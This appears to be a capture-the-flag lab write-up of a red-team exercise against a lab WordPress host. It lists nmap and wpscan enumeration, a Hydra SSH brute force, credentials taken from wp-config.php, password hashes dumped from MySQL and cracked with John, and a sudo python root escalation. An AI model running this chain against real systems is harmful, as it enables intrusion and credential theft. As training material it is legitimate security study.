 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sC -sV 192.168.1.110
```
![nmap results](/Images/nmap1.png)
![nmap results](/Images/nmap2.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 / SSH
  - Port 80 / http
  - Port 111 / rpcbind

Nikto was used to conduct a basic vulnerability scan against 192.168.1.110 and find tracked critical vulnerabilities with OSVDB (Open Source Vulnerability Database). 
While OSVDB is no longer supported, the signatures can be cross checked with ![https://cve.mitre.org/data/refs/refmap/source-OSVDB.html](https://cve.mitre.org/data/refs/refmap/source-OSVDB.html).

The following vulnerabilities were identified on Target 1:

![Nikto](/Images/nikto1.png)

### Exploitation

`wpscan --url http://192.168.1.110/wordpress --wp-content-dir -at -eu`

1. Scanned the network to identify the IP addresses of Target 1.
`nmap 192.168.1.*`
![](/Images/nmapIP.png)

2. Identified exposed ports and services.
`nmap -sC -sV 192.168.1.110`
Target 1 has ports 22 (SSH), 80 (HTTP), and 111 (rcpbind) open.

![](/Images/nmap1.png)
![](/Images/nmap2.png)

3. Enumerated the WordPress site. One flag is discoverable after this step.
     - **Hint**: Look for the `Users` section in the output.
     - `wpscan --url http://192.168.1.110/wordpress --wp-content-dir -at -eu`

Results of our scan revealed 2 users, Michael and Steven.
![](/Images/WPUsers.png)

Hydra was used to uncover Michael's password, which was **michael**.

`hydra -l michael -P /usr/share/john/password.lst -vV 192.168.1.110 ssh`

![](/Images/MichaelPW.png)

4. Used SSH to gain a user shell for Michael on Target 1. 

`ssh michael@192.168.1.110`

![](/Images/SSHTarget1.png)

**Flag 1:**
Found flag 1 in the html code for http://192.168.1.110/service.html

![](/Images/dirbuster.png)

![](/Images/flag1.png)

**Flag 2:**
Found flag 2 by digging through the file path for /var/www/ which hosts the source code for the website at 192.168.1.110

![](/Images/flag2.png)

5. Find the MySQL database password.
     - While looking for additional information, a config file called `wp-config.php` was found in `/var/www/html`. This contained credentials for a wordpress database.
![](/Images/db_creds.png)

**Flag 3 and 4:**
While exploring the database tables, flag 3 and 4 were found by dumping the `wp_posts` table.
Commands to access the flags occurred in the following sequence:
  ```bash
  show tables;
  select * from wp_posts; 
  ```

![](/Images/flag3.png)
![](/Images/flag4.png)

6. Used the credentials to log into MySQL and dump WordPress user password hashes.

```bash
show tables;
select * from wp_users;
```
![](/Images/wp_tables.png)
![](/Images/wp_users.png)

7. Crack password hashes with `john`.

We see there is a hashed value for Steven's credentials. Using it with John the Ripper, we were able to determine the value of Steven's password as **pink84**.

8. Secure a user shell as the user whose password you cracked.

![](/Images/stevensudo.png)

9. Escalate to `root`. One flag can be discovered after this step.
Utilizing the fact that the user steven can run python as root, we were able to conduct privilege escalation. The 4th flag was also found here.

![](/Images/root.png)






